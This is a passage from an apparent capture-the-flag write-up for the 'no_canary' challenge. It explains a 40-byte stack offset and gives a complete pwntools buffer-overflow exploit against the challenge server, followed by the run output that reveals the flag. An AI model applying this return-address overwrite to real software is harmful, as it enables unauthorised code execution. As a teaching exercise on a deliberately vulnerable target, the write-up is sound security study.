 Since we are dealing with a 64bit binary, we cant simply overwrite RIP. To find the value of the offset to our instruction pointer we must offset the value from the top of RSP, in this case the gdb pattern was found at length 40. 

Next, we need to get our addresses. Our end goal is to jump to the flag() function, but since its x64, we need to supply a valid return/exit address. I used main since its always available and is a valid address within the binary. (had issues with faking addresses in the past).


Finalised exploit:

{% highlight python %}
from pwn import *

context.arch = 'amd64'
#sh = process("./no_canary")
sh = remote("shell.actf.co", 20700)

offset = "A"*40
main = p64(0x0000000000401199)
flag = p64(0x0000000000401186)

payload = offset
payload += main
payload += flag

sh.recvuntil("name? ")
sh.sendline(payload)
sh.interactive()
{% endhighlight %}


Running the exploit:
```
[fml@DCLXVI:~]$python no_canary.py 
[+] Opening connection to shell.actf.co on port 20700: Done
[*] Switching to interactive mode
Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x99\x11!
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? $ 
Nice to meet you, !
actf{that_gosh_darn_canary_got_me_pwned!}
Segmentation fault
[*] Got EOF while reading in interactive
$  

```
